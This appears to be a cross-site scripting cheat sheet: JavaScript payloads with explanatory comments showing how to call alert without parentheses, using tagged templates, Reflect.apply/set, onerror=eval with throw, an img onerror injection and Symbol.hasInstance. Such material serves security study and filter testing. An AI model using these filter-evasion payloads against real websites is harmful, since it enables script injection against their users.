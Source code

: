 ````javascript
"a,".replace`a${alert}` //Initial ["a"] is passed to str as "a," and thats why the initial string is "a,"
"a".replace.call`1${/./}${alert}`
  // This happened in the previous example
  // Change "this" value of call to "1,"
  // match anything with regex /./
  // call alert with "1"
"a".replace.call`1337${/..../}${alert}` //alert with 1337 instead

  // Using Reflect.apply to call any function with any argumnets
Reflect.apply.call`${alert}${window}${[1337]}` //Pass the function to call (“alert”), then the “this” value to that function (“window”) which avoids the illegal invocation error and finally an array of arguments to pass to the function.
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`
  // Using Reflect.set to call set any value to a variable
Reflect.set.call`${location}${'href'}${'javascript:alert\x281337\x29'}` // It requires a valid object in the first argument (“location”), a property in the second argument and a value to assign in the third.



// valueOf, toString
  // These operations are called when the object is used as a primitive
  // Because the objet is passed as "this" and alert() needs "window" to be the value of "this", "window" methods are used
valueOf=alert;window+''
toString=alert;window+''


// Error handler
window.onerror=eval;throw"=alert\x281\x29";
onerror=eval;throw"=alert\x281\x29";
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
{onerror=eval}throw"=alert(1)" //No ";"
onerror=alert //No ";" using new line
throw 1337
  // Error handler + Special unicode separators
eval("onerror=\u2028alert\u2029throw 1337"); 
  // Error handler + Comma separator
  // The comma separator goes through the list and returns only the last element
var a = (1,2,3,4,5,6) // a = 6
throw onerror=alert,1337 // this is throw 1337, after setting the onerror event to alert
throw onerror=alert,1,1,1,1,1,1337
  // optional exception variables inside a catch clause.
try{throw onerror=alert}catch{throw 1}


// Has instance symbol
'alert\x281\x29'instanceof{[Symbol['hasInstance']]:eval}
'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}
  // The “has instance” symbol allows you to customise the behaviour of the instanceof operator, if you set this symbol it will pass the left operand to the function defined by the symbol.
````
